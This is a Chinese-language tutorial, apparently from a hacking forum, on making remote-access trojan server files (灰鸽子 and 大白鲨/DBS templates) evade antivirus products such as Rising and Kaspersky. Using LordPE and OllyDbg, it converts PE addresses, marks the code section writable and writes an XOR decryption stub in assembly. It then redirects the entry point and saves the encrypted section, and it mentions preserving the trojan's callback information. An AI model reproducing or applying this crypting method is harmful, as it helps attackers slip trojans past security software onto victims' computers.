

图3

右键-发送到-Load PE后，我们需要对Load PE进行设置，如图4。单击右边的【选项】按钮，在右上角“拖放文件视为”下放点上“打开PE编辑器”，点上后会高亮显示，【确定】保存退出就OK了，默认操作是“重建PE”，那就完蛋了，下面的都不用看下去了。



图4

现在拖入data.file，Load PE就给我们拖入的文件进行分析，如图5。



图5

现在我不关闭Load PE，把文件复制一份用OD打开，自动停留在入口点（入口点就是程序执行代码的开始，双击后代码从这里开始执行）。首先用一张图片说说OD中的地址是怎么来的，图6。



图6

下面将用一张截图给大家说说VA/RVA/OFFSET（偏移量）/镜像基址之间的关系，量比较大，大家啃一啃，别忘了做笔记。如图7。



图7

归纳起来就是：
- OD中的地址——VA=RVA+镜像基址，主要是在OD中编辑代码、修改入口点或者到C32中修改字符数据的时候转换成相应地址的情况下大量使用；
- C32中的地址——OFFSET（偏移量），使用Load PE的位置计算器可以得到，在VA中输入OD中的地址，点击右边的执行/偏移量，就会有相应的OFFSET，这时可以到C32中修改数据；

### 菜鸟学堂
Load PE中的入口点：RVA=VA-镜像基址，常用于修改入口点；

最基本的地址换算大家一定要学会，反复看笔记，反复记忆，熟能生巧，慢慢地你会摆脱Load PE位置计算器的束缚。

按下【区段】按钮，拖入文件后在右侧可以找到，如图8。



图8

CODE段：代码段，查杀重点对象。
DATA段：数据段，第二查杀对象。
.rsrc段：资源段，图标、上线信息等都在这里，如果对这里大动手术，乱来会让图标丢失并或者无法加入上线信息。通常如果要在data.file，也就是文件模板上修改，一定要绕过上线信息，否则无法添加上线信息。

以上是三个比较重要的区段，DATA段在灰鸽子中是并查杀的，在DBS（大白鲨）里是不查杀，所以今后我们可以绕过DATA免杀。

本章节的目的是对免杀混个脸熟，所以这次的文笔也到这里而止了。下一章，将会讲解选择免杀范围和免杀方法，以及一些使用小技巧，完全针对文件免杀。

## vflanker免杀（二）

### —— 免杀的关键

上一章我们讲到免杀的基本功——地址的互换。这一章，我们来学习确定免杀范围及针对各杀软的免杀方案，篇幅较短，但内容不少。

主角依然是DBS。首先我们针对瑞星杀毒软件，这是款国产杀软，装机的时候都会建议安装瑞星杀毒软件，所以我们先拿他来开刀。

我把虚拟机转到瑞星杀毒软件的模式，这是一个独立的模式。在我的虚拟机里，每款杀毒软件创建一个快照，更新完之后再创建一个快照，把旧的删去。特别注意一点：更新完杀毒软件之后，请务必把虚拟机的网络给断掉。

现在来确定免杀范围，也就是确定哪个区段，大致地只要针对区段免杀就OK了，不需要对特定代码免杀。

效率高，可是免杀效率可不高，跟特征码免杀差不多了。通常情况下，我们都是把所有区段都免杀了，然后把输入表给隐藏一下，可以过大部分杀毒软件的表面查杀。

但主动一般不是那么容易，有一个方法：那就是把重启上线这些特别的选项去掉，因为主动就是检测到了这些特殊的行为才报警。

写着写着，忽然觉得这个好像没什么必要了，我是说确定免杀范围没什么必要。因为区段就那么几个，一个一个去试就可以了，这个免杀了还不行就另一个，知道免杀完为止。

这里就直接给CODE段先免杀了，这是代码部分，我们要先对他动手。首先，我们需要收集一些信息，同样用Load PE载入打开，记下入口点、镜像基址，然后点区段，把三个主要区段的起始地址也记录下来。

如图1。

把Load PE最小化，用OD打开data.file，自动停在入口点。首先我们建个.txt，把刚才的信息数据都写好，格式如下：



- 入口点 0005D5B0
- 镜像基址：1000000
- CODE:10001000 - 结束位置（最好加上基址，在OD中更方便）
- DATA:1005E000 - 结束位置
- RSRC:1006D000 - 结束位置

在OD左下角有个跟C32很相似区域，我们称之为数据窗口。使用前我们要右键-Hex-选择16进制模式，默认不是这个的，这个比较直观。点一下数据窗口任意位置，Ctrl+G或右键-前往，弹出表达式跟随框，选择VA/API，输入区段起始位置10001000，点【OK】即可跳转到区段起始位置。继续下拉可定位到代码结束处。

00十六进制代码或ASCII字符，据此还有一个快捷方法一步到这区段代码结束为止，右键-搜索-二进制字符串，在“HEX+30”中输入多个“00”，按住“0”几秒，点【OK】。如果看起来不像就Ctrl+L搜索下一处。跳转到无数据段时，上面便是结束代码。地址规律调整后，下一行地址可作为结束代码的最后一个字符地址使用。

……所以，这里的区段结束地址就是1005D5F7，如图2。所以上面.txt笔记里面CODE的信息可以改为：CODE:10001000，1005D5F7。DATA段和RSRC段都可以这样找，最后的结果是data结束位置为：1005FDE0，rsrc结束位置为：1006D20D，在.txt笔记里面整理一下吧。



现在在OD中重新载入文件（图3），按键在工具栏上，是一个向左的双箭头，右边的是关闭当前分析的文件按钮。虽然刚才没修改什么东西，但是习惯性还是把它给恢复一下。

现在便是第一次免杀了。如果定位特征码，改来改去改了一会儿就被杀了，所以这里不改特征码，我们把整个区段的代码给他弄成“乱码”。实现方式是在运行时恢复过来，即“异或加密”。首先找可写代码区段，先看CODE段是否可写。做这个前，需退出OD，用Load PE修改文件属性：载入Load PE，点【区段】并选中CODE，右键编辑区段，点【标志】右侧按钮勾上可写属性，点【确定】。再掉【区段表】，回主界面点【保存】（不是【确定】），保存多次确保生效。DATA也可同样处理，但DATA查杀较少。RSRC本来可写入上线信息。



【保存】后【确定】退出，回到OD。在代码窗口点工具栏按钮（如图3），选择VA/API，键入CODE起始地址10001000，到达CODE起始代码处。继续下拉，或直接输入CODE结束地址（VA）1005D5F7，会看到该地址不可见（奇偶与显示步长导致），从1005FDE0开始也可。选中一段代码并右键复制到可执行文件，观察“无法在可执行文件中定位数据”提示位置，判断可写行数。

因此不打算在CODE插入代码，改到DATA代码结束位置1005D5F8，这里空间更宽。从C7到FD可写入，在计算器十六进制下FD-C7=36，即18行，足够写加密代码。随后从1005FDC7开始，向下拖若干行，右键二进制-NOP填充（或00填充），准备写入后续代码。

### 菜鸟学堂

地址上的 NOP 区域，不要双击 1005FDC7，那是下断点。加入代码：（先尝试着理解一下这些代码的意思，然后再看代码后面的解释）：



首先在 C7 写上一句 pushad 作为代码开始，相对应的结束在 D9 的 popad；第二句 mov ebx,10001000，意思是把 10001000 赋值给 ebx，就是让 ebx 的数值变成 10001000（CODE 代码起始位置）；第三句 xor byte ptr [ebx],7C，意思是把 ebx 上的地址的内容与 7C 进行异或；第三句 inc ebx，使 ebx 的值 +1，第二次运行的时候 ebx 就成了 10001001，第三次是 10001002，依次类推；第四句，把 ebx 与 1005FDE0（CODE 代码结束位置）比较；第五句，若第四句中 ebx 比 1005FDE0 小则跳回 1005FDCD（第三句）执行，如此循环直到 ebx 比 1005FDE0 大则执行下一句（D9）；第六句 popad 标志这段循环代码的结束；第七句 push 与第八句 retn 共同完成跳转到 1005D5B0（原始入口点）的操作，使用 push 对卡巴有效。





以上便是一段简单的异或加密代码，我们记下这段代码的起始位置 1005FDC7 到 .txt 笔记本中，然后把刚才代码选中（编辑过的代码已成红色部分）-右键-复制到可执行文件-选定内容-右键-保存文件，可直接覆盖。要注意：刚才的操作所写的地址都是 OD 中的地址，也就是 VA（RVA+基址）。

现在关掉刚才的文件，最小化 OD，用 Load PE 载入刚才覆盖的 data.file，把刚才记录下来的代码起始地址减去基址 10000000 得到 RVA=0005FDC7，替换原来的入口点（图6），然后猛点【保存】再点【确定】。现在用 OD 重新载入核实一下有没有修改到入口点，同时准备下一步操作。

因为刚才直接覆盖，文件名没有改变，可以直接在 OD 中点工具栏上向左数第二个按钮重新载入，看到代码的确是停在刚才的地址，这里核实工作已完成。下一步，是关键的一步。

我们在数据窗口中转到 CODE 起始位置 10001000，别转错了。现在定位到代码窗口，点击工具栏上从左数第七个按钮“单步步过”，相当于 F8，我们点一下，代码窗口的代码就走一句，我们继续点，点到 JB 语句的时候程序自动跳回了第三句执行第二次异或，如此循环；如图7。这时注意数据窗口中的 ASCII 数据也在逐个字符地变换，这就是第一次异或，我们现在不可能一直这样点下去，点到 2013 年都不可能完，所以我们可以在 jb 的下一句的 1005FDD9-popad 点一下，然后按下 F4，数据窗口能看到的 ASCII 字符都变了，十六进制区域也变了。这时我们选中第一个字符，然后拉动滑动条拉到 CODE 代码结束的地方，按住 Shift，再点最后一个被加密的字符把被加密的数据全部选中，为了保险起见可以点被加密字符的下一行确保没有选漏，否则会运行出错。然后右键-保存，记住：千万不能选没有改变数据的数据，否则是无法保存的，如图8。



